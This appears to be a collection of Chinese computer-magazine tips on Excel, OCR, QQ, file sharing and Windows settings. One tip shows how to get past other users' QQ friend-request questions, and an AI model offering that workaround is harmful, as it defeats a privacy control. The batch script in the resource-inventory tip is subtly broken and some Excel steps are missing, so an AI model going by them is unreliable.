接着在Folder Naming Scheme右侧输入子文件夹名称，比如：文件夹。最后在Sorting Mode栏勾选Normal选项，单击Split按钮，待下面的日志栏中显示出Finished splitting字样，文件夹分割完成。

小提示：
分割完成后，原文件夹中的文件会移动到类似于“音乐文件001”、“音乐文件002”这样的子文件夹中，并且每个子文件夹的体积，都会小于指定的大小，很方便传输。如果想把文件刻成光盘保存，只要在设置容量选项中，单击对应的光盘类型按钮就可以了。另外需要注意的是，子文件夹的体积设置必须大于最大的单个文件的体积。

二、按类型分割

在使用中发现，Folder Axe的功能并不简单，不仅能的大文件夹按体积等分成小文件夹，还可以按文件数量、名称(指定前几个字符数)、扩展名、日期等方式进行分割，几乎包含了文件夹分割的所有方式。比方说某个文件夹内的文件类型繁杂不一，就完全可以用该软件自动进行筛选分组。

选择好要分类的文件夹后，切换到By File Group标签，对子文件夹进行命名(该方式下，命名的文字会显示在文件夹名称右侧)，随后单击Split按钮，分类操作完成，所生成的子文件夹会以音频、视频、文档、图片等类别自动分组。美中不足的是，子文件夹的名称为英文，需要大家手动更改为中文名称。

有效输入设关卡 从此不做马大哈

“本本，公司何时来了个长寿村老人？”看着本本发来的“人事档案”表，小余差点笑出声来。
“长寿村老人？”本本有点摸不着头脑。
“看，这是什么？许小杰，223岁！”
“哎呀！我这手一哆嗦，多输了一个‘2’！幸好还没发给经理。”
“你这个马大哈！”小余想了想，“要不，给你请个秘书？”
“别拿我开心啦！”本本说。
“我是说，请出‘有效性设置’给你把把关，提提醒，让你少出错。”

Excel表格的有效性设置能根据我们事先设置的规则，判断录入的数据是否符合规则，不符合的视为无效数据，不允许录入。比如，可以为“年龄”列设置一个有效性规则。

## 向“离谱”年龄说再见

选中“年龄”列，点击“数据→有效性→设置”，设置为“整数，介于18，60”，并选中“忽略空值”，确定后，对年龄录入的限制就设置好了。根据有效性规则，此列只允许录入18到60间的整数。

现在试试，再录入“223”，就会弹出输入值非法的错误提示了。
“好啊，有了这个‘秘书’，我就不会再录入那么离谱的年龄了。”本本说，“小余，帮我把‘性别’列也设置一下吧，免得我手一哆嗦，把‘男’录成‘田’，闹出大笑话来。”（用五笔输入汉字时，LL为男，LLL为田。）

## 把“荒唐”性别挡门外

选中“性别”列，点击“数据→有效性→设置”，在“允许”中选择“序列”，在“来源”中输入“男，女”（注意：逗号应在英文状态下录入哦），并选中“忽略空值”“提供下拉箭头”两项。

现在我们来看看效果。把鼠标放在“性别”列中的任意单元格，都可以看到一个下拉箭头，点击它，就出现一个下拉列表，我们可以从列表中选择“男”或“女”，但如果试图录入除“男”或“女”之外的荒唐性别，就会弹出错误提示哦！

### 小提示：

对于直接录入的数据，有效性设置能起到限制作用。但如果数据是以复制、填充方式录入的，则不会弹出错误提示。

## 让出错提示更贴心

“这个‘秘书’很不错，就是死板了点。”本本说，“永远只会说‘输入值非法’。”
“非也！她能给出更贴心的提示，不过需要我们事先设置好。现在，我们就以‘年龄’列为例设置一下吧。”

再次选中“年龄”列，点击“数据→有效性→出错警告”，在“错误信息”下输入“温馨提示：本公司只招18至60岁的员工。不招童工，也不返聘哦！”

现在再试试录入“223”，弹出的提示更人性化了吧？

## 每个设置都有意义

本本又问道：“对啦，刚才选中‘提供下拉箭头’应该是为了建下拉列表吧？那‘忽略空值’又是什么意思呢？”
“‘忽略空值’是指忽略了数据有效性的区域中录入的空值，以本例来讲，如果勾选了此项，在‘年龄’和‘性别’列中就允许输入空值，反之，就不允许输入空值。”
“谁会那么无聊去输入空值呢？”
“在Excel中，不管有意无意，只要你双击了某个单元格，却不输入任何内容，它就认为你输入了空值。我们使用鼠标时，难免不小心就双击了哪个单元格（尤其当鼠标太灵敏时），如果不设置‘忽略空值’，那它每次都要弹出‘输入值非法’的信息，你烦不烦？”

### 小提示：

如果想取消有效性设置，可以这样操作：
2003版：选中该列，点击“数据→有效性→设置→全部清除→确定”
2007版和2010版：点击“数据→数据有效性→数据有效性→设置→全部清除→确定”

话单的秘密：我打了谁的电话

不知为何，这个月的手机通话费突增。联想到我家两岁的小贝总是要摆弄我的手机，把触摸屏按得不亦乐乎，拨出去了不少电话，有几次我都听到电话那边的“喂喂”声。我决定一探究竟，看看到底谁被“骚扰”了，顺便查查话费突增的原因。

进入移动网上营业厅，把本月详单复制到Excel电子表格的Sheet1中，保存为“book1.xls”。

- 详单中有“对方号码”、“通话时间”、“通话时长”、“总费用”等项目。在“对方号码”列的左侧插入一列，命名为“机主姓名”，用于显示号码对应的机主姓名，方便查看究竟谁被“骚扰”了。
- 打开电脑上备份的Excel格式的手机通讯录，把通讯录粘贴到“book1.xls”的Sheet2中。注意一定要将“手机号码”调整到首列。在Sheet1表的A2单元格中，输入以下函数公式：

```
=VLOOKUP(B2,Sheet2!$A$2:$B$210,2,FALSE)
```

### 小提示：VLOOKUP函数的作用

在数据表的首列查找指定的数值，并由此返回数据表当前行中指定列处的数值。即，根据详单表中的“对方号码”，找到通讯录表首列中相同号码对应的机主姓名。
B2代表要查找的电话号码单元格；Sheet2!$A$2:$B$210代表查找的通讯录单元格区域，其中$符号保证区域的绝对引用；2表示返回通讯录中第2列的值，若是3则返回第三列的值；FALSE表示返回精确匹配值，如果找不到，则返回错误值#N/A。

- 选中A2单元格，鼠标在单元格右下角变成小十字的时候向下拖动，填充公式到列尾，所有的机主姓名一览无余。
- 把详单表按照主要关键字为“通话类型”，次要关键字为“总费用”进行排序，发现主叫通话中，机主姓名为“奶奶”的费用最高，达21.20元。这是由于小贝在玩电话的时候误拨出去，奶奶接听后没有关闭导致的。
- 再通过“自动筛选”功能，发现以机主“奶奶”为主，被叫的电话非常多，除了几条是我打的之外，其余都是淘气小贝用两个手机拨打的。
此外，还有很多我没有拨过的电话。在此，向被骚扰过的人们致歉，我家小贝已经替我问候过大家了啊！^_^

纸质资料变成可编辑的新文档

前段时间，我为学校的专业短期培训班编写学习资料，从教材、辅导书中节选的内容都是亲手输入，每天加班加点敲键盘，累得我腰酸背痛，两眼昏花。看到我这样辛苦，小尚送给我一篇《电脑爱好者》10期上的文章《用相机翻拍出完美的文档》，读后深受启发，赶忙用数码相机对着需要的内容进行拍照。然而当我完成了拍照，把这些照片传入电脑后，一个新的问题又摆在了我的面前，如何编辑这些照片中的文字呢？请教小尚后打开网址http://www.hw99.com/，原来我是万事俱备，只欠“汉王PDF OCR”这个东风。

## 一、照片变文档

- 用汉王PDF OCR将照片文档打开，根据所要识别的照片文档的内容是简体中文还是繁简混合或是英文，可先进行一下设置。点击“系统设置”，勾选需要的语言（默认是简体中文）。
- 如果选中“识别”选项卡中的“自动倾斜校正”，那么在后面的版面分析时，系统会自动校正倾斜的图像文件。
- 点击“识别→版面分析”，然后选择“开始识别”，则开始对所拍的照片文档进行字符识别。在识别窗口中看到识别结果的那一刻，我内心高兴极了，终于不用再敲键盘了啊！
- 在识别出来的结果中可能会存在一些识别错误，可通过校正修改迅速解决。比如对照下面原图像区里的照片，发现识别窗口中的第二行第一个“律”字应该是“作”字，那么可以点击“律”再选择“作”进行改正，假如没有可选的对应文字，可以手动输入所需的文字。
- 一切工作完成后，输出识别结果。点击“输出→到指定格式文件”。
- 保存类型选择“RTF”格式，使照片文档变身成Word文档，这样就可以根据实际需要进行编辑和排版打印。

### 小提示：

由于每张照片经过分析识别后，都分别输出为一个Word文档，所以对于多个照片文档，识别并输出后可合并到一个Word文档中进行编辑排版。

## 二、几点建议

在小尚的帮助下，我顺利体验了纸质资料变身Word文档的全过程，有几点建议送大家：
其一，在拍照时，最好将资料中的文本、表格、图片分开拍，这样方便在开始识别之前在“工具栏”对图像框的属性做相应的选择，默认图像框的属性是“文本横栏”。
其二，此种方法对于纸质资料的质量、照片的质量要求都较高，如果纸的颜色发黄、照片不清晰等，那么识别效果就不是很好，遇到这样的情况时，最好用图像处理软件将照片文档处理后再进行识别。
其三，平日里阅读纸质报纸、杂志、书籍时遇到想要收集的内容，或者想将过去收集的纸质资料整合时，都可用这个方法将它们变身成为Word文档，然后自由编辑排版。我深深体会到用这样的方法为我节省了大量的时间和精力。

RTF（Rich Text Format）格式是一种Word能够存取并在多种软件之间通用的文本格式
OCR（Optical Character Recognition光学字符识别）技术，是指电子设备（例如扫描仪或数码相机）检查纸上打印的字符，通过检测暗、亮的模式确定其形状，然后用字符识别方法将其翻译成计算机文字的过程。

（文/李海莹）

## 月考成绩是升是降 趋势图标直观明了

每次月考后，老师都要对班上学生的成绩进行考后分析，看看每个同学的考试成绩与上次比较是提升还是退步了。

以前我都是用简单的1、0和-1来表示学生成绩的上升与后退，可是，看着成绩表上满纸的数字，很容易模糊，并且1、0和-1也不能很好地说明成绩的发展趋势。经过摸索，我发现在成绩分析表上可以利用箭头图标来表示学生成绩的进步与否。

运行Excel 2007，按正常情况建立一个成绩表，并设置好字体、字号等属性。选中F3单元格，在编辑栏输入“=IF(E3>D3,1,IF(E3<D3,-1,0))”并确认。再次选中F3单元格，向下拖动填充柄。

拖动鼠标选中F3:F53区域，在“开始”选项卡的“样式”组单击“条件格式”，选择“图标集→三向箭头（彩色）”，这时就可以通过趋势列的图标很容易知道这个学生这两次考试的成绩趋势了。

> (文/刘玉岗)

## 图片缩略图请别“忽悠”我

孩子的幼儿园要搞一个亲子活动，需要家长通过网络提交一张宝宝的生活照，用于制作亲子活动画栏。匆忙之中，我没有使用图片查看软件，而是直接通过图片缩略图选中了一张照片发送给老师。没过多久，我意外地收到了“照片不符合要求，请重新发送”的回复信息。

我用软件打开该照片，发现该图片确实已经被我用光影魔术手编辑过了，而缩略图却没有同步改变。

> 小提示：
在XP系统中第一次打开一个包含图片的文件夹，右击执行“查看→缩略图”命令，系统会在逐一显示图片缩略图的同时，自动将文件夹中的所有图片缩略图保存到缩略图索引文件Thumbs.db中，以后显示缩略图时先读取此Thumbs.db文件，如果该文件不存在或其中没有该图片的缩略图信息，它会尝试读取图片的EXIF信息，看是否存在缩略图信息；如果还是没有，系统将自己生成并将缩略图信息保存在Thumbs.db文件中。

在光影魔术手等软件保存文件时，会出现一个EXIF选项设置，除非勾选“删除EXIF信息”，否则系统不会主动更新原来文件夹下的Thumbs.db文件，因此才会出现上述缩略图与实际图像不匹配的情况，需要右击选择“刷新缩略图”，才会自动更新Thumbs.db。

> 小提示：
用Photoshop不会出现类似的删除EXIF信息选项，也就不会出现上述问题。

> 小提示：
在Windows 7中如果出现缩略图与原图不匹配的情况，可右击文件执行“查看→超大图标”命令，改变缩略图的大小，就可以让系统重建正确的缩略图了。如果嫌缩略图占空间，可打开“计算机”执行“组织→文件夹和搜索选项→查看”命令，勾选“始终显示图标，从不显示缩略图”选项，以禁止显示缩略图，这时所有的照片缩略图都会变成蓝天白云图标。

> (文/姚文连)

## “QQ交谈” 入驻空间显个性

以前看到许多网站上有“QQ交谈”，点一下就可以通过电脑上的QQ软件与对方交谈，QQ在线离线都有不同样式。一直以为那是很深度的事情，后来去小丁空间逛的时候，发现他空间也有“QQ交谈”，很惊讶，很羡慕。小丁说：“其实很简单的，让我来教你吧！”

-   方法一：
    -   先进入自己的QQ空间，点击右上角的“装扮空间”按钮。
    -   在最上方找到“增删模块”，点击切换到该栏下。
    -   单击“新建模块”。
    -   选择“图文模块”。
    -   进入后，把“<a target="_blank" href="http://wpa.qq.com/msgrd?v=3&uin=********&site=qq&menu=yes"></a>”（把********替换成自己的QQ号码）这段代码，复制到“描述”一栏（其他栏可填可不填）。
    -   确认后再按需要调整一下这个模块的位置，最后点击右上角的“保存”，便大功告成了。

-   方法二：
    -   登录wp.qq.com，进入后，假如qq还未登录，就请先登录QQ。然后根据自己的需要选择代码类型、图片留言、图片风格等，选好后点击“复制公开代码”，把复制好的代码按照上面的方法放到“图文模块”的“描述”栏，保存即可。

```
<a target="_blank" href="http://wpa.qq.com/msgrd?v=3&uin=********&site=qq&menu=yes"></a>
```

> 小提示：
方法一是为那些不想上其他网站的朋友准备的，而如果想有更多的选择就用方法二吧。
现在我的QQ空间首页也有“QQ交谈”了，心里美滋滋的。

> (文/原健钊)

## 在笔记本上欣赏台式机里的视频

劳累一天回到家中，本想斜靠在沙发上，用笔记本电脑欣赏一会儿高清MKV视频放松一下，不成想视频却存放在台式机里。难道必须把那么大体积的视频文件传送到笔记本上才能观看？No！看我如何在软件的帮助下，无需传输，直接欣赏局域网电脑中的MKV视频。

在笔记本电脑观看台式机里的视频，需要满足两个条件，一是每台电脑中都要安装DivX player播放器，二是要在存放视频的电脑上开启服务。播放器的安装当然简单，DivX Plus Player是必选项目。而InnerTube这款软件（下载地址：http://download.cnet.com/InnerTube/3000-31714_4-75446739.html?tag=mncol;1），还是需要设置一下的。

解压InnerTube文件到英文路径下，会得到两个文件夹：InnerTube和InnerTube Server。首先把视频文件更改为英文名称，复制到InnerTube夹中的Movies子文件夹下（扩展名为小写），然后打开InnerTube Server文件夹，运行其中的go.bat文件，即可完成设置，开启服务。

那么该怎样在笔记本电脑中开始欣赏呢？在笔记本上打开网页浏览器，在地址栏中输入http://（IP地址）:8080，例如http://192.168.0.89:8080，然后回车或单击“转到”；在打开的页面中单击Default文字链接，单击Movies，便可以看到视频列表，单击某一个视频文件，就可以在网页中直接播放视频。如果要把视频下载到本地电脑，只要单击视频播放窗口下方的Download即可。

> 小提示：
InnerTube同样支持通过互联网播放视频，只需把IP地址更改为公网IP即可（可利用IP138等网站查询），当然如果你的电脑是通过路由器上网的话，还需要在路由器中进行端口映射设置。
遗憾的是，InnerTube目前只支持MKV和AVI视频的列表显示和播放，要是能加入对WMV、FLV等主流格式的支持就太棒了。

> (文/屑小之徒)

## 网购服装 PS帮你试穿

网上购物现已成为人们的消费行为之一，几乎所有的商品都可以在网上买到，服装、美容、手机、家具、母婴、文化娱乐，甚至珠宝、汽车等商品也可在网上交易，很多商场里买不到的东西也可在网上找到，而且常常是价廉物美。网上购买服装尤为盛行，但如何能买到称心的服装呢？

如果在商场，可以通过试穿看看是否合身和美观来决定买还是不买，而网购时我们不能直接看出衣服适不适合自己，这时可以借助于PhotoShop，在网上“试衣服”，将看中的网络服装图片下载下来，利用PS，通过将我们自己的头像照片贴到服装模特图片的头部进行移花接木，合成效果后可以直观判断服饰合适与否，从而能够帮助我们买到称心的服装。

-   第一步 下载服饰图片，在PS中打开，并且打开自己的照片。若看中多款服饰，下载后也可同时打开相应图片来进行比较。
-   第二步 对每一服饰图片，均用椭圆选框工具选择人脸区域，用修补工具将背景覆盖人脸区域。
-   第三步 使用椭圆选框工具把自己照片的人脸选出，然后使用移动工具分别把人脸移至服饰图片，使用“编辑”菜单的“自由变换”，调整图片大小、位置和方向，使图片衔接良好。

这就是人物试衣的效果。本操作中对人脸的自由变换要等比例进行，避免失真，只需在变换状态下按住Shift键再拖动鼠标即可。对人脸使用椭圆工具选择非常快捷，不过选择比较粗糙。

PS中的处理起到了试衣比较的作用。根据试衣的效果图对比，这位朋友放弃了牡丹花款，选择的款式为荷花款。这是身穿网购服装的实际效果。

> 小提示：
购买衣服之类的商品之前，需要对自己的衣服尺码有所了解，可根据服装的三围、衣长等商品详情以及自己身体的三围、身高等数据来确定。三围尺寸可这样测量得到：胸围是立姿、自然呼吸时胸部最丰满处的水平围度，腰围是立姿、自然呼吸时腰部最细处的水平围度，而臀围是立姿、自然呼吸时臀部最丰满处的水平围度。知道了自己的三围，就可以对照衣服规格选择适合自己的尺码了。

> (文/刘丽萍)

## 论文脚注 来去自如

参加教研论文比赛，需要将论文中的引用文字注解统一修改为脚注形式，每页分别进行编号。脚注一般分为两个部分，一部分是文档中的引文编号，另一部分是该页文档下方的引文注释内容。当我在Word2007中选择“引用→插入脚注”时，发现脚注编号是上标形式，字号为小五，与正文相比偏小一点，序号数字又没有加圆圈，不符合参赛论文的要求，虽然可以手工删除脚注编号，重新输入并设置编号，但当页码发生变化，影响到脚注编号时，还需要再进行修改，非常麻烦。

这时可以先分别选中脚注区的两个数字序号，选择“开始→字体”，取消序号的上标形式，将字号更改为五号。然后右击下方的脚注序号，选择“便笺选项”，打开“脚注和尾注”对话框，在“编号格式”列表中选择脚注编号为加圈的数字“①、②、③……”。在“编号”列表中选择“每页重新编号”，单击“应用”按钮，即可完成论文脚注的分页自动编号设置。

当论文脚注的位置再次发生改变时，每页的脚注序号也会随之改变，如果要删除脚注，只需要删除文中的脚注序号，下方的脚注序号和内容就会自动删除。如果想先删除下方的脚注内容，你会发现脚注横线根本无法删除。

(文/姚文连)

## 让网页快照 正常显示

网页快照是搜索引擎将网页备份保存在服务器里的缓存，当网页被删除或修改后查看不了时，就可以用网页快照快速找到你想要找的资料。可是最近发现Google的网页快照不能正常显示，如何让它正常显示呢？

首先关闭安全辅助工具（避免修改不成功），然后用记事本打开hosts文件（地址：C:\WINDOWS\system32\drivers\etc\hosts），在里面添加一行74.125.71.132 webcache.googleusercontent.com并保存。重启浏览器后访问Google网页快照时，只需在地址栏的http后增加一个s，回车后就可以看见谷歌的网页快照了。

还有一种方法适合不经常用到网页快照的朋友，可以用在线代理来查看谷歌的网页快照（网址：https://uncontrolledsurfer.com/）。进入后只需在第一个方框内输入Google网址，回车后即可进入Google，找到你想查看的网页，点击网页快照就可以查看了。

(文/曾梓虎)

## 绕过问题添加 QQ好友

盼着盼着终于高中毕业了，我总算走过了高考这道大门，玩了N天后想到了我那些分别已久的同学们中还有好多人的QQ我还没加呢！于是花了一个下午在班群里逐个添加好友，但让我郁闷的是居然有不少同学设置了添加好友问题，根本不能直接发送好友邀请。对方不在线，班群里问来问去也没人知道答案。经过一番摸索，终于发现了用TM2009添加好友可以绕过问题。

首先下载QQ的TM版（http://dl_dir.qq.com/qqfile/tm/TM2009Beta3.1_chs.exe），登录TM后点击查找按钮，输入对方的QQ号并查找，与常规版QQ的操作一样，不同的是找人的添加好友问题不见了。简单说明一下自己的身份，就等着他同意吧。

(文/滕鸿鸿)

## OCR软件不用求 网站帮你解忧愁

收到朋友扫描后发来的资料，我想提取图片中的文字，可Office中没有安装所需的组件，如果就为了那么几页文件去下载安装OCR软件再进行识别，有那个功夫和重新输入也差不多了啊，不值得费那么大事。

利用http://www.scweavers.org/free-online-ocr网站的在线识别，无需下载安装软件，只需将图片上传，即可自动识别图片中的文字。网站默认是上传本地文件，点击“选择文件”选择要识别的图片文件；如果是识别网络中的图片则选择“URL”，并输入正确的网络地址。然后选择与图片中的文字相对应的语言，比如Chinese-Simplified（简体中文），点击Convert（转换）即可。识别完毕后，如果仅需要其中的部分文字，选中后右击鼠标选择“复制”，如果要保存全部内容，可点击Download Text（下载文本），再点击“下载”即可。它支持TIF、JPEG、PNG、BMP、GIF、BPM、PGM、PPM等格式且不大于10MB的图片，若图片清晰且分辨率适宜，会大大提高识别的正确率。

(文/刘长德)

## 为自己和同事发出会议提醒

繁忙的工作老让自己忘记时间，害得两次参加会议都迟到，几个同事也如此。有什么办法能够提醒自己同时还能提醒同事按时参会呢？其实，QQ邮箱早就提供了这样的提醒服务。

要为自己和同事一起定制提醒服务，需要登录到QQ邮箱，然后在QQ邮箱首页左侧的导航栏内选择“提醒”，新建提醒服务，建好后勾选该服务，然后选择“提醒好友”，并将同事的QQ邮箱都加入接收列表中。该过程不需要您逐个输入邮箱地址，只需要从列表中双击选择联系人就可以了。等到达指定时间时，自己和同事都会收到该提醒邮件，并且会在屏幕右下角弹出提示框。

(文/韩玉宁)

## 轻松存文字 只用鼠标拖一下

在网页中发现一段有价值的文字，需要复制保存下来，你的办法是什么？恐怕最常用的就是打开记事本或Word，复制并粘贴，然后再保存。其实还有更方便的办法，那就是用鼠标选中要保存的文字段落，然后一拖就能保存为文件。

不过，这需要保证设置中开启了这一功能。在360安全浏览器中，默认一般已经开启了这一功能，如果发现没有该功能，请按如下方法检查：打开360安全浏览器的“选项”设置窗口，选择左侧的“鼠标操作”，进入右侧的窗口，选中“拖放选中的文字时，使用搜索引擎搜索”，同时选中下方的“拖动的文字超过64个时，弹出保存对话框提示保存”。

(文/刘英)

## 加密文件既简单又安全

小刚最近担心自己电脑里的文件隐私被黑，让我推荐几个加密文件。其实我们没必要去专门下载加密文件，只需一个WinRAR和一个MD5值校验工具（下载地址：http://www.duote.com/soft/5250.html），就可以自己轻松加密，而且安全性很高。

思路是这样的：把随便一个文件当成密钥文件（可随意建立一个文本文档，写几句话就可以当成一个密钥文件，但要注意，一旦确定了某个MD5后，密钥文件就不能修改了，否则下次你在校验文件的时候MD5会变）。然后校验其MD5，把MD5码当作RAR的密码（至少这样的密码暴力破解是不可能的，除非给他几个天河一号），然后保存好密钥文件就OK了。

下面以加密一个文本文档X为例。

-   ①准备好这两个文件，如密钥.txt和MD5值校验工具。
-   ②用MD5值校验工具校验其MD5并复制下来。
-   ③将X用WinRAR压缩，将此MD5当作密码。

(文/孟令排)

## 音乐合成器让声音不再随心喧闹

一大早打开电脑，因为今天有几个视频会在线直播，恰巧都是十点。当正式进入预定的会场时，才发现各位专家的精彩演讲一句都听不清楚，原因就是几个声音同时从不同的网页发出，有些还带有背景音乐。无法单个控制，其实在日常生活中，遇到多个应用程序同时发声的情况时，动用Windows 7的音乐合成器可以让声音不再自我主张。右键点击小喇叭图标，选择“打开音量合成器（M）”，在合成器窗口“应用程序”栏找到各个程序下方的“音量调节滑块”，上下调节就可以。要实现静音，只要单击小喇叭图标就行了。

(文/段晓东)

## 商品是否中意 当然要看大图

网上购买服饰不能试穿，所以查看商品图片成了是否购买的主要判断方法之一。可页面中的图片一般都不是大图，虽然点击缩略图图片会相应放大，还可利用放大镜查看，但有时对商品的一些细节还是看得不太清楚。现在教你一招，如何查看商品原始大图。在淘宝中打开某款商品的购买页面，左上方会罗列出不少该商品的缩略图，想查看哪张缩略图的原始大图，就在该缩略图上单击鼠标右键并选择“属性”，在出现的属性对话框中将“地址”栏中的图片地址复制下来，而后将其粘贴到浏览器地址栏中，并将图片地址末尾处的“_40x40.jpg”删除掉，回车后大图立刻就显示出来了。

(文/雨中飞)

## 喜羊羊大战灰太狼之资源统计篇

灰太狼出任务，立命喜羊羊将近年来该村的教育资源做份报表交上，时间限在一日。“要是做不好，”灰太狼冷冷地道，“就取消本年度公费去青青草原吃草的机会！”初生羊犊不怕狼，何况老村长也早说过：一切扎势派都是纸灰狼！一个屡战屡败的角色也敢在羊村称雄？不过，真要PK，还得看做真狼才行。

仔细研究，喜羊羊发现，所有资源其实都存放在“D:\教学资源”位置，而且是依次按“部门→提供者”的层次存放的，如“D:\教学资源\艺术组\美羊羊\中国古典音乐特点.ppt”，而灰太狼的要求呢，也就是要喜羊羊列出每个资源的名称、大小、类别、提供者以及提供者所在部门，两相核对，喜羊羊心里一下子有了底：这样的存放方式正适宜于按灰太狼的要求批量生成统计表！莫说一日，就是一个小时也要不了，手中有粮，心里不慌，方案已悄然在喜羊羊心中形成。

### 批处理勇当先锋，一步获取资源列表。

```
cd D:\教学资源
for /r %%c in (*.*) do echo %%~fc>D:\list.txt
命令解释：进入“D:\教学资源”目录，提取该目录以及子目录下所有文件路径、名称以及扩展名，将提取内容保存到D盘的list.txt文件中。其中“/r”表示包含子目录，参数“~f”表示输出完整路径名，“~z”表示显示文件大小，这些都绝对不可缺少。
保存该文件为bat文件，双击，片刻间，D盘中自动生成list.txt，里面正是喜羊羊所要的文件列表。
```

### 记事本也有一手，批量替换事半功倍。

打开list.txt，可以看到，每行一个资源信息。而资源的大小排在最前边，且和后面内容有一个半角空格。如“2211525 D:\教学资源\艺术组\美羊羊\中国古典音乐特点.ppt”，毫无疑问，其中的空格和“D:\教学资源”都是最后不要的，那就改改。复制“D:\教学资源”和前边的空格，依次点“编辑→替换”，运用全部替换命令将复制内容全部清除，现在，内容变成了“2211525\艺术组\美羊羊\中国古典音乐特点.ppt”，初步符合了要求。但是，文件类型怎么办？

其实，由于资源的目的性很强，而且大多都是同事们原创的，因此，资源数量虽多，但格式很有限，以PPT文件和Word文件居多，剩下的，基本上都属于动画文件（SWF）、图片文件（JPG、GIF）和视频文件。而根据要求，PPT文件被定义为“课件”类型，Word文件被定义为“资料”类型，SWF文件被定义为“动画”类型，JPG和GIF被定义为“图片”类型，剩下的自然都是“视频”类型了。

### Excel 初试牛刀，数据导入大有讲究。

喜羊羊新建一个名为“资源统计”的Excel文件，打开后定位到A1单元格中，依次执行“数据→自文本”，选中“list.txt”文件并点“导入”，打开导入框。勾选“分割符号”项，进入“下一步”。勾选“其他”，同时在后面方框中输入“\”，继续点“下一步”，遵从默认设置完成数据导入。

### Excel 大显身手，数据统计尽善尽美。

现在，A、B、C、D、E列分别为资源大小、部门、提供者、资源名称、资源类型。可以打印了吗？且慢。既然是资源统计，没有编号怎么能成？再说了，资源大小单位实际上字节（Byte），而1MB=1024KB，1KB=1024B，怪不得数字那么大。看来，得转换成MB看起来才方便。

然后用ROUND函数将结果保留两位小数；继之，再用CONCATENATE函数在上述结果后添加单位“MB”。回车后，以MB为单位的资源大小值就出现在了F1列，接下来，运用填充手柄功能得到其余各列的资源大小值。

经过这四大步的操作，一份完美的资源统计表就展现在了喜羊羊面前。经过简单的美化，打印表就被送到了灰太狼的办公桌上。看着时间，还不到10分钟。“怎么，这么快？”看罢报表，灰太狼又惊又气：所惊者，喜羊羊速度如此之快，真是小看了；所气者，到手的羊又没了，一计不成，灰太狼岂肯甘心！眼珠子一转，又生一计：“怎么没有资源的总大小？哼哼，以为本库长就那么好对付吗？回去，继续统计，本库长要看每个部门提供的资源的总件数和总大小！下班前拿不出结果，嘿嘿……”

其实，要统计...就是很简单的事了。

准备，打开资源统计Excel文件，为方便打印，喜羊羊决定将统计结果放在Sheet2中。在A1中输入“部门”，以下各列依次输入部门名称，B1中输入“资源数量”，C1中输入“资源总量”，好了，接下来就该函数出马做统计了。

## 文件直传我有“安全通道”

应公司外地办事处的请求，市场部的老宋需要将公司下半年的市场规划文件发送过去，这涉及到了公司的很多机密。于是老宋没有通过电子邮件、QQ等传统手段发送，而是用了DirectTransFile，将一串“暗语码”发送到相关人员的手机上，对方根据该暗语码又快又安全地接收到了相关文件。

电子邮件、QQ等虽然可以实现文件传输，但其安全性不高，主要原因是数据在传输过程中，不是直接发送到对方的电脑中，而是需要不同网络主机的层层转发，最后才到达目标主机。如果黑客使用各种嗅探软件中途拦截的话，数据就存在泄密的风险。而DirectTransFile的特点之一是实现了数据的点对点传送功能，数据直接传送到目标主机上；特点之二是可以为不同的文件创建直传“暗语”，只要对方得到了该“暗语”，就可以远程接收与之关联的文件，这很容易实现一对多的数据直传；特点之三是可以为文件传输项目设置密码，将文件加密后再传输出去，进一步提高了数据传输的安全性。

### 创建文件直传“暗语”

-   在系统托盘中的DirectTransFile图标上点击右键，选择“Uploads”，在文件传输管理窗口左下角点击第一个按钮，在弹出窗口的右侧纵向工具栏中点击第一个按钮，导入所需的文件（可多选）。
-   此外，还可以直接导入整个文件夹，实现文件夹的整体传输，点击第二个按钮可添加所需的文件夹。
-   添加完需要传输的文件后，点击“Register”按钮，它将对导入的文件信息进行分析处理，并在弹出的窗口中显示本传输项目的暗语码（例如本例中为“JAA-7S6-AEA”）。
-   小提示：
    这里所说的暗语码实际上就是文件传输的识别码，凡是知道该暗语码的远程用户，都可以根据以上方法，您可以分别创建不同的文件传输项目，并得到其各自的暗语码
-   为了加强数据安全，它还允许您为不同暗语码配置密码。在文件传输管理窗口左侧列出所有的暗语码，选择不同的暗语码，在右侧窗口中显示其中包含的文件信息。在对应的暗语码右键菜单上点击“Set password”项，在弹出窗口中输入密码，点击“Set”按钮，完成密码的设置操作。
-   小提示：
    一旦设置了密码，文件在直传时首先经过加密操作，之后将加密后的文件发送给对方，对方如果没有密码，是无法接收文件的。

### 远程接收文件

-   当您将暗语码通过手机、邮箱等途径发送给对方，对方该如何接收数据呢？首先，对方的电脑上必须安装并运行DirectTransFile，在其右键菜单中选择“Downloads”，在文件下载管理窗口底部点击第一个按钮，在弹出窗口中输入对应的暗语码，点击“Next”，然后选择文件保存路径。
-   它可以根据该暗语码建立网络连接，电脑接收到远程主机发送来的暗语码后，可以自动寻找和其关联的所有文件并传输。在下载管理窗口中选择对应的暗语码，在窗口右侧的Download Information列表中就会显示和该暗语码绑定的所有文件信息，同时自动执行文件的下载操作。
-   在下载过程中，可以随时点击暂停按钮暂停下载操作，点击继续按钮则可继续执行下载操作。当进度栏中显示“Loaded!”字样时，表示下载已经完成，如果对应文件带有绿色标记，表示该文件已经下载完成。

## 构建云服务 只需零成本

把自己的电脑配置成云服务器，在其它电脑上下载文件，倾听音乐、欣赏图片，是件既新鲜又刺激的事。以前介绍的Pogoplug想必能让大家过上一把小瘾，但该软件免费版仅仅提供了图片分享服务。如果想从更多角度体验云服务的乐趣，不妨试试Tonido（下载地址：http://www.tonido.com/），在全免费的前提下，也能实现文件下载和图片、音乐分享服务，而且同样支持多种操作系统。

小提示：
该软件对共享文件的类型没有特别要求，共享后只要服务处于开启状态，就能从别的电脑上分享你电脑中的文件。想关掉共享的话，右击系统托盘区的程序图标，选择Tonido Network->Disable选项，图标变为红色即可，而选择Enable，则可切换为桔黄色，重新开启服务。

聆听音乐
对于MP3文件，Tonido还提供了另外一种方式：把电脑打造成音乐服务器，在其它电脑上直接播放。这一功能需要安装“音乐盒”插件来实现。

### 设置共享

现在创建的只是一个空服务器，具体分享哪些文件，必须添加进来。

-   比方要共享D盘下的TDdownload文件夹，就先在左侧展开“我的计算机”，选中分区名称，在右侧找到要分享的文件夹名称，单击右侧的箭头的“文件”按钮，在弹出的对话框中单击“是”即可。单个文件的分享操作与此相同。
-   设置完共享文件夹或文件后，单击左侧的“文件”，在新出现界面的“文件”标签下就可以看到，其中的文件夹将被重新命名，每个文件或文件夹下方有一个网址，这便是从其它电脑访问共享文件或文件夹的链接。把链接地址复制下来，发送给好友就可以了。
